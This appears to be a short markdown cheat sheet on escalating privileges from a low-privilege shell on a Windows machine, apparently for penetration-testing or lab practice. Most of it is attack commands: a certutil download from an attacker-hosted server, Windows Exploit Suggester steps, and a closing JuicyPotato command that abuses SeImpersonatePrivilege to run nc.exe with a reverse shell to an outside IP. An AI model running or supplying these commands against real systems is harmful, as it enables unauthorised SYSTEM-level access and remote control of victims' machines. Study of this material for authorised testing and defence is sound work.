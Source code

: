 This post's content is about when you get a low, unprivileged shell on a Windows Machine.
First and foremost thing is to upload files on the system.
### Steps:
    Start server on attacker machine:
    >python3 -m http.server 80 #on attacker machine
    On victim machine:
    >certutil.exe -urlcache -split -f http://<ip><port>/path/to/file

Easy way to check for privilege escalation vulnerabilties is to use [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) 
Steps to use Windows-Exploit-Suggester
### Steps:
    On attacker machine:
    Install xlrd python library.
    >python windows-exploit-suggester.py -update #this will create a .xls file which will contain all ms cve's   
    On victim MS machine, run systeminfo to fetch system information, and save it locally on attacking machine as sys.txt.
    Then on attacking machine use
    >python windows-exploit-suggester.py --database file.xls --systeminfo sys.txt
    It will list all the vulnerabilties. 
    Note: [E] means Exploitdb, [M] means metasploitable

Priviledge exploitation
### ?
    whoami /priv ->lists priviledges current user has

### Some priviledges if enables to exploit
    1) SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
       If this is Enabled then you are the SYSTEM.
       List of CLDIS
       juicypotato.exe -l 1234 -p nc.exe -a "-e cmd.exe 10.10.14.23 443" -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}
